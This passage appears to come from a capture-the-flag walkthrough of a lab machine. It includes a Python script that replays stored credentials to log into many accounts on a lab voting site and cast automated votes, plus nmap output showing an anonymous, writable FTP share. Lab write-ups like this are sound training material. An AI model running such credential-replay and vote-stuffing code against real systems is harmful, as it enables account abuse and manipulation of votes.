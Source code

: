 Also, it was mentioned by the Democratic party that they support the idea of free and open sharing of digital data and FTP servers. Let's vote for this party and see if they will keep their promise. The Python code below automatically logs into each account present in the **user-pass.txt** file created above and votes for Democrat.

```python
#!/usr/bin/python3.11
import requests

proxy = {'http': 'http://127.0.0.1:8080'}
with open("user-pass.txt", "r") as file:
    numb_votes = 0
    for credentials in  file:
        user_creds = credentials.split(",")
        user_session = requests.session()
        r = user_session.post("http://10.0.2.19/login.php", data={"username": user_creds[1].strip("\n"), "password": user_creds[0]}, proxies=proxy)
        r = user_session.post("http://10.0.2.19/vote.php", data={"candidate": "democrat"}, proxies=proxy)

        if "Thank you for voting" in r.text:
            numb_votes += 1
    
    print(f"[+] The candidate democrat has {numb_votes} votes")
```

After the script completes, we can click on view votes and we will be redirected to the systemopening.php page. From the name of this page, we can deduce that the democratic party kept its promises and exposed the FTP server to the public.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-18-democracy/after-1000-vote.png)

## Post Exploitation

Let's perform a new service scan on the target to identify the port where the FTP server is running.
```bash
┌──(pentester㉿kali)-[~/Democracy/Scans/Service]
└─$nmap -sC -sV 10.0.2.19 -oN service-scan-2.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 11:05 BST
Nmap scan report for 10.0.2.19
Host is up (0.00045s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 root     root          258 Apr 30  2023 votes [NSE: writeable]
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
<SNIP>
```